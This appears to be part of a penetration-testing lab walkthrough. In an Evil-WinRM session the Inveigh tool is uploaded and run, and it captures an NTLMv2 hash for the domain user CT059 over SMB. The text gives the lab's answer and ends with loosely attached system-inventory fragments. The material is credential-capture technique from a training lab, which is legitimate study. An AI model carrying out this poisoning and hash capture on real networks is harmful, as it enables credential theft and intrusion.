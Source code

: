 Info: Uploading /home/htb-student/Inveigh.exe to C:\Inveigh.exe

Data: 365908 bytes of 365908 bytes copied

Info: Upload successful!

​

*Evil-WinRM* PS C:\> C:\Inveigh.exe

[*] Inveigh 2.0.4 [Started 2023-03-07T23:28:54 | PID 2660]

[+] Packet Sniffer Addresses [IP 172.16.7.50 | IPv6 fe80::6cf1:c554:3df1:aeda%9]

[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]

[+] Spoofer Reply Addresses [IP 172.16.7.50 | IPv6 fe80::6cf1:c554:3df1:aeda%9]

[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]

[ ] DHCPv6

[+] DNS Packet Sniffer [Type A]

[ ] ICMPv6

[+] LLMNR Packet Sniffer [Type A]

[ ] MDNS

[ ] NBNS

[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]

[ ] HTTPS

[+] WebDAV [WebDAVAuth NTLM]

[ ] Proxy

[+] LDAP Listener [Port 389]

[+] SMB Packet Sniffer [Port 445]

[+] File Output [C:\]

[+] Previous Session Files (Not Found)

[*] Press ESC to enter/exit interactive console

[.] [23:29:54] TCP(445) SYN packet from 172.16.7.3:62474

[.] [23:29:54] SMB1(445) negotiation request detected from 172.16.7.3:62474

[.] [23:29:54] SMB2+(445) negotiation request detected from 172.16.7.3:62474

[+] [23:29:54] SMB(445) NTLM challenge [9E814C432674F5C3] sent to 172.16.7.50:62474

[+] [23:29:54] SMB(445) NTLMv2 captured for [INLANEFREIGHT\CT059] from 172.16.7.3(DC01):62474:

CT059::INLANEFREIGHT:<SNIP>

[!] [23:29:54] SMB(445) NTLMv2 for [INLANEFREIGHT\CT059] written to Inveigh-NTLMv2.txt

**Answer:** `**CT059**`


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0